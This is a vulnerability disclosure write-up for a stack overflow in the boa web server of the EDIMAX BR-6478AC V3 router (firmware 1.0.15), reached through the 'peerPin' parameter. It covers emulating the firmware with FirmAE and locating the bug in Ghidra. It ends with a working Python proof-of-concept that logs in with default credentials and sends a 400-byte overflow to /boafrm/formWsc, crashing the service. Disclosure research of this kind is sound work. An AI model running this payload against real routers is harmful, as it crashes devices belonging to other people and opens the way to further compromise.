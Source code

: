 # EDIMAX RCE
**description**: 
a stack overflow vulnerability was found on EDIMAX BR-6478AC V3 via the FUN_0044a70c function and peerPin in /bin/boa


## Firmware
**brand**:edimax 

**product**:AC1200 Wave 2 Dual-Band Gigabit Router 

**version**:BR-6478AC V3 1.0.15  

The firmware can be downloaded from this [website][1] and using FirmAE to simulate the router environment.   
The command is 
```
sudo ./run.sh -d edimax ../Desktop/FIRWARE/BR-6478AC_v3_1.0.15.bin 
```
The result of the simulation is as follows and the defalut username is **admin** and default is **1234**: 
![alt text](img/login.png)

using ghidra we can know the action is formWsc
![alt text](img/action.png)
and the relate web page is as follows and url of page is http://192.168.2.1/wlwps.htm:
![alt text](img/url.png)


## analyze
Using ghidra we can know that the post parameter "peerPin" will be sprintf as the second input parameter and result the stack overflow
![](img/code_line.png)
![alt text](img/code_line2.png)
The details of the function as follows:

**addr**:0044afd0
**function**: FUN_0044a70c
**parameter**:peerPin


# poc
the poc code as follow,
```
import requests

data={
	'username':'admin',
	'password':1234
}

url='http://192.168.2.1/boafrm/formWsc'
url_login='http://192.168.2.1/boafrm/formLoginSetup'
url_page='http://192.168.2.1/wlwps.htm'

res=requests.post(url=url_login,data=data)
print(res.text)
cookies = res.cookies
print(cookies)
res2=requests.get(url=url_page,cookies=cookies)
print(res2)

data2={
	'submit-url':'%2Fwlwps.htm',
	'save_apply':'Save+%26+Apply',
	'resetUnCfg':'0',
	'targetAPMac':'',
	'targetAPSsid':'',
	'configVxd':'off',
	'resetRptUnCfg':'0',
	'peerRptPin':'',
	'setPIN':'123',
	'peerPin':'8'*400

}

res3=requests.post(url=url,cookies=cookies,data=data2)
print(res3.text)

```
the result of POC is as follows,can find the segmentation fault
![alt text](img/stack_overflow.png)
![](img/after_attack.png)

[1]:https://www.edimax.com/edimax/merchandise/merchandise_detail/data/edimax/global/home_legacy_wireless_routers/br-6478ac_v3
